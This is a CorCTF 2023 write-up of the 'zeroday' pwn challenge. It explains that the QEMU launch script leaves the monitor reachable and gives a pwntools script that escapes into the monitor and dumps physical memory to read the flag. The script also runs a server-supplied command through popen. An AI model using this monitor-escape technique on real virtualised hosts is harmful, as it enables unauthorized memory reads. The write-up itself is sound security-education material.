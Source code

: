 ```yaml
---
title: 'Write up CorCTF 2023'
categories:
  - Pwnable
tags:
  - Pwn
published: true
---
```

# 
This year, I've played for [m1cr0$oft 0ff1c3](https://ctftime.org/team/194346) team. We were in 24th place.

![image](https://user-images.githubusercontent.com/31349426/257208523-da1e4fc5-cdb3-4438-b464-a96f60ab34f7.png)


## zeroday

[Attachment](https://static.cor.team/uploads/f93d715de70d3564d225322817f8ee2cf5280df938ca8f767829ff1bf5be4963/zeroday.zip)

![image](https://user-images.githubusercontent.com/31349426/257205502-4a417562-5e51-48ae-8dd6-f4af35322439.png)

Not like a normal Linux kernel exploit challenge. This challenge doesn't provide any vulnerable driver.

Then, I did check `run.sh` again carefully.

```sh
#!/bin/sh

qemu-system-x86_64 \
    -m 128M \
    -nographic \
    -kernel "./bzImage" \
    -append "console=ttyS0 loglevel=3 oops=panic panic=-1 pti=on" \
    -no-reboot \
    -cpu qemu64,+smep,+smap \
    -smp 2 \
    -initrd "./initramfs.cpio.gz
```

You can see that there is no option: `-monitor /dev/null` , so you can access Qemu monitor by pressing `Ctrl A` + `c` or sendline `\x01c`.

So I wrote a script dump physical memory to screen and finally I found the address of the flag is `0x7bb1000`.

```py
from pwn import *
from os import popen

f = open("dump4.txt","wb")
io = remote("be.ax",32578)

io.recvuntil(b"proof of work: ")

cmd = io.recvline().decode()

sol = popen(cmd).read()

io.sendlineafter(b"solution: ",sol.encode())

io.sendlineafter(b"ctf@(none)",b"\x01c")

io.sendlineafter(b"(qemu) ",b"xp/2000c 0x7bb1000")
```